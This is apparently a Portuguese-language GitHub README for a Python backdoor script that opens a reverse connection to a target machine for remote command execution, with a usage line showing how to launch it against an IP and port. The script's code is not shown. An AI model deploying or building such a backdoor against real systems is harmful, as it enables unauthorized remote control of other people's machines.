 # backdoor-em-python

Um script em Python que estabelece uma conexão reversa com uma máquina alvo, permitindo a execução remota de comandos.

⚠️ Aviso

Este script é para fins educacionais e de pesquisa em segurança cibernética. Utilize-o apenas em ambientes controlados e com autorização explícita. O uso indevido pode violar leis locais.

📋 Requisitos

Python 3.x

📌 Funcionalidades

Estabelece uma conexão reversa com o alvo

Executa comandos remotamente

Permite navegação entre diretórios

🚀 Uso

Certifique-se de ter o Python instalado.

Execute o script da seguinte forma:
python3 backdoor.py <ip_alvo> <porta>

Exemplo:
python backdoor.py 192.168.1.10 4444
